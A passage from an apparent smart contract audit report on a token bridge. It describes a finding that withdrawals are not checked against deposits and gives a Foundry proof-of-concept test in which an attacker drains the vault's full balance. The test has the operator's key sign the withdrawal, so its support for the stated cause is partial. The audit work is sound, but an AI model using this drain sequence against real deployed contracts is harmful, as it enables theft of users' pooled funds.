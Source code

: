 **Recommended Mitigation:**

As suggested in `[C-1]`, consider modifying the `depositTokensToL2()` function so that the caller cannot specify a `from` address.

### [C-3] Attacker can withdraw more funds than they initially deposited into the protocol due to no check for that sort of thing

**Description:**

The `L1BossBridge::withdrawTokensToL1()` function lacks no check to ensure that the `amount` to be withdrawn is indeed the `amount` that was deposited in the `L1BossBridge::depositTokensToL2()` function.

**Impact:**

An attacker can withdraw more than they deposited. And if they are ware of the tvl of the protocol, they can drain the funds of the protocol in one transaction.

**Proof Concept:**

Add the following test to the `LiTokenBridge.t.sol` file:

```solidity
    function testCanWithdrawMoreThanDeposited() public {
        address attacker = makeAddr("attacker");
        address tokenAddr = address(token);
        address vaultAddr = address(vault);
        uint256 attackerDeposit = 10e18;
        uint256 userDeposit = token.balanceOf(user);

        // user txns
        vm.startPrank(user);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2({ from: user, l2Recipient: user, amount: userDeposit });

        assert(token.balanceOf(vaultAddr) == userDeposit);
        assert(token.balanceOf(user) == 0);

        // attacker txns
        deal(tokenAddr, attacker, attackerDeposit);
        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2({ from: attacker, l2Recipient: attacker, amount: attackerDeposit });

        assert(token.balanceOf(attacker) == 0);
        assert(token.balanceOf(vaultAddr) == (userDeposit + attackerDeposit));

        uint256 tvl = token.balanceOf(vaultAddr);

        // attacker attempts to withdraw more than deposited, and is successful
        (uint8 v, bytes32 r, bytes32 s) =
            _signMessage(_getTokenWithdrawalMessage(attacker, tvl), operator.key);
        tokenBridge.withdrawTokensToL1(attacker, tvl, v, r, s);

        assert(token.balanceOf(vaultAddr) == 0);
        assert(token.balanceOf(attacker) == tvl);
    }
```
